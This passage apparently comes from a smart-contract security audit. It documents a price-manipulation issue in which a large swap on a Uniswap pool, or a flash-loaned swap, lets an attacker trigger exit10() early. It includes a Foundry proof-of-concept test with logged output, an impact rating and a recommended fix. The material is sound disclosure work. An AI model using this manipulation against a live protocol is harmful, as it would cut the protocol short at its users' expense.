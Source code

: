 ```solidity
function testManipulate() public {
    console2.log("block number:", block.number);
    (uint160 sqrtPriceX96Init, int24 tickInit, , , , , ) = pool.slot0();
    // Take USDC from a large holder instead of flashloan for simplicity
    address atck = address(0xEbe80f029b1c02862B9E8a70a7e5317C06F62Cae);
    uint value = 4_000_000 * 1e6;
    vm.startPrank(atck);
    IERC20(pool.token1()).approve(address(router), value);
    ISwapRouter.ExactInputSingleParams memory params = ISwapRouter.ExactInputSingleParams(
        pool.token1(), // USDC
        pool.token0(), // WETH
        500,
        atck,
        block.timestamp,
        value,
        0,
        0
    );
    router.exactInputSingle(params);
    vm.stopPrank();
    (uint160 sqrtPriceX96Fin, int24 tickFin, , , , , ) = pool.slot0();
    console2.log("tickInit:", tickInit);
    console2.log("tickFin:", tickFin);
}
```

which outputs:

```
Logs:
  block number: 95682224
  tickInit: -201109
  tickFin: -102138
```

Full PoC file here: https://gist.github.com/bahurum/9daac43a30cd67fe02453a58a52645b5

At any time, an attacker can take a flashloan, swap USDC to ETH, trigger `exit10()` and swap ETH back to USDC on the pool. Note that this may not yield any profit for the attacker (who would have to pay at least for flash loan fees), but the result is that the protocol ends sooner than expected.

#### Impact

Medium. Attacker can trigger `exit10()` sooner than expected at some cost. This will skip all the phases of the protocol and end the protocol.

#### Recommendation

In `_requireOutOfTickRange()`, consider checking that the current tick is not too far from the tick at the beginning of the block. This will make `exit10()` revert if the price has been manipulated prior to calling it.

```diff
function _requireOutOfTickRange() internal view {
+ int24 blockStartTick = OracleLibrary.getBlockStartingTickAndLiquidity(POOL);
+ int24 currentTick = _currentTick();
  if (TOKEN_IN > TOKEN_OUT) {
-   require(_currentTick() <= TICK_LOWER, 'EXIT10: Current Tick not below TICK_LOWER');
+   require(currentTick <= TICK_LOWER, 'EXIT10: Current Tick not below TICK_LOWER');
  } else {
-   require(_currentTick() >= TICK_UPPER, 'EXIT10: Current Tick not above TICK_UPPER');
+   require(currentTick >= TICK_UPPER, 'EXIT10: Current Tick not above TICK_UPPER');
  }
+ int24 tickDiff = blockStartTick > currentTick ? blockStartTick - currentTick : currentTick - blockStartTick;
+ require(tickDiff < 100); // 100 ticks is about 1% in price difference
}
```
